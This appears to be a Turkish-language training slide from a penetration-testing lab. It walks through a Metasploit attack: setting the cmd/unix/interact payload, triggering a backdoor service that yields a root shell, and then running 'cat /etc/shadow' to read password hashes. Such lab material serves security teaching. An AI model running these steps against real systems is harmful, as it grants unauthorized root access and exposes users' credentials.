

Metasploit konsolunda set PAYLOAD cmd/unix/interact yazın ve ENTER’a basın.
Metasploit konsolunda exploit yazın ve ENTER’a basın.
Eğer düzgün bir şekilde çalışıyorsa aşağıdakileri görürsünüz:
[+] Backdoor service has been spawned, handling…
[+] uid=0(root) gid=0(root)
Komut satırında whoami yazın ve ENTER’a basın.
Komut satırında pwd yazın ve ENTER’a basın.
cat /etc/shadow yazın ENTER’a basın.